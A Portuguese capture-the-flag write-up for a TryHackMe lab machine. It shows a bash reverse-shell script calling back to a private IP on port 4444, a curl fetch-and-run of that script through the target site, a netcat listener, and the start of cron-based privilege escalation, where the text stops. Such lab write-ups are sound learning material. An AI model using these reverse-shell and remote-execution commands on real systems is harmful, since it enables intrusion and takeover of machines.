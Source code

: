 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---
## obs: Desligar antivirus.

### Parece que a mquina tem um curl ,da pra subir um arquivo shell em servidor python com o script do shelRev baixar na maquina com o curl , executar e escutar a resposta do outro lado

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)
### dentro do arquivo shell_2.sh

```shell
  #!/bin/bash
  bash -i >& /dev/tcp/192.168.100.168/4444 0>&1

```

### Dentro dessa pasta vamos subir o servidor pyhton para baixar com o curl
![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### No site vamos colocar o comando do curl para baixar o arquivo e em seguida ja executa-lo | shel_2
![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### no outro terminal eu fico na escuta do nc -nlvp 4444
![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

### shel recebido agora fazer post exploration e escalar previlegio
## acesso a maquina pelo www/data
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)

---

# aqui estao todos os arquivos que foi feito o fuzzing ,Agora fazer um exploração pelos arquivos em busca de algo interessante
# dentro dessa pasta opt achei um .sh que funciona a cada 1 via cron
![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)
### entendendo oque ocorre no script
![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)



